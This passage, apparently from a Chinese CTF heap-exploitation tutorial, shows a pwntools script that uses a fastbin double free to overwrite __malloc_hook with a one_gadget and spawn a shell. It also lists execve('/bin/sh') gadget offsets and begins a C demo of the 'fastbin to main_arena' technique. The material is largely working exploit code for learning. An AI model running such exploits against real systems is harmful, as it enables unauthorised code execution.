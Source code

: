 ```python

# double free
delete(2)
delete(3)
delete(2)

# fake the fd to __malloc_hook
add(0x68,p64(libc_base+0x3c4aed))
add(0x68)
add(0x68)
# rewrite to one_gadget
add(0x68,'a'*0x13+p64(libc_base+0x4526a))
#gdb.attach(p)

add(0x233)
p.interactive()


'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

```

***

#### fastbin to main_arena

&emsp;&emsp;<font size=2>在这里额外介绍一个新的利用double free改写任意地址的技巧：fastbin to main_arena。就是把fastbin分配到main_arena上去，然后就可以修改main_arena上的数据达到我们的目的，比如说我们可以修改top堆块到任何位置（只要满足size检查），然后相当于就可以在任何地方分配堆块，进而可以修改任何地址的数据，不多说，demo放在下面，原理上面都已经分析过了：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
	void *p1,*p2,*p3;
	unsigned long* ptr;

	p1=malloc(0x100);
	p2=malloc(0x100);
	free(p1);
	unsigned long libc_base=*(unsigned long*)p1-0x3c4b78;
	free(p2);
	//fprintf(stderr,"libc base:%llx\n",libc_base);

	p1=malloc(0x50);
	p2=malloc(0x50);
```